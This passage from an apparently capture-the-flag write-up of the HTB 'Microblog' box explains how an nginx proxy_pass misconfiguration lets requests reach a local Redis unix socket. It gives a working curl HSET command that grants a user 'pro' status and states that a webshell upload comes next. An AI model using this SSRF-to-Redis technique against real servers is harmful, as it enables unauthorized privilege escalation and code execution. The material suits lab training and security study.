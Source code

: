 ```
        }

        location = /static/js/health/ {
            resolver 127.0.0.1; proxy_pass
            http://js.microbucket.htb/health.txt;
        }

        location ~ /static/(.*)/(.*) {
            resolver 127.0.0.1;
            proxy_pass http://$1.microbucket.htb/$2;
        }
}
```

There is a misconfiguration at this part:

```
        location ~ /static/(.*)/(.*) {
            resolver 127.0.0.1;
            proxy_pass http://$1.microbucket.htb/$2;
        }
```

The `proxy_pass` feature in Nginx supports proxying requests to local unix sockets. Surprisingly, the URI passed to proxy_pass can be either `http://` or a UNIX-domain socket path specified after the word unix and enclosed in colons. With this feature, we can change the user `pro` field to `true` by sending `HSET` method to `http://microblog.htb/static/unix:/var/run/redis/redis.sock:<username>%20pro%20true%20/`

```
❯ curl -X "HSET" 'http://microblog.htb/static/unix:/var/run/redis/redis.sock:gh0st%20pro%20true%20/'
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```

We should not be bothered by the response, if we check the blog again, the current user should have `pro` access.

<p align="center"><img src="./img/pro_user.png"></p>

With the `pro` access, we can write a webshell to the `/var/www/microblog/<blogname>/uploads/` directory because it's writable for the `pro` user.
